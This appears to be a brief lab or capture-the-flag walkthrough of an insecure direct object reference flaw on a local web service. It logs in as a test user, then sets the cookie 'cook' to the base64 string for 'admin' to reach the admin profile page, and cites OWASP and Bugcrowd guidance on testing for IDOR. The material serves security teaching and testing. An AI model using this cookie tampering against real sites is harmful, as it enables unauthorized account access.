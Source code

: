 

Register like 
http://127.0.0.1:1338/?user=admin&pass=admin&type=reg


Login like
http://127.0.0.1:1338/?user=admin&pass=admin&type=log


Register new user
http://127.0.0.1:1338/?user=test&pass=test&type=reg



Login like
http://127.0.0.1:1338/?user=test&pass=test&type=log


Change cookie (cook) to YWRtaW4=


Refresh page
http://127.0.0.1:1338/profile.php



https://www.bugcrowd.com/blog/how-to-find-idor-insecure-direct-object-reference-vulnerabilities-for-large-bounty-rewards/

https://www.owasp.org/index.php/Testing_for_Insecure_Direct_Object_References_(OTG-AUTHZ-004)
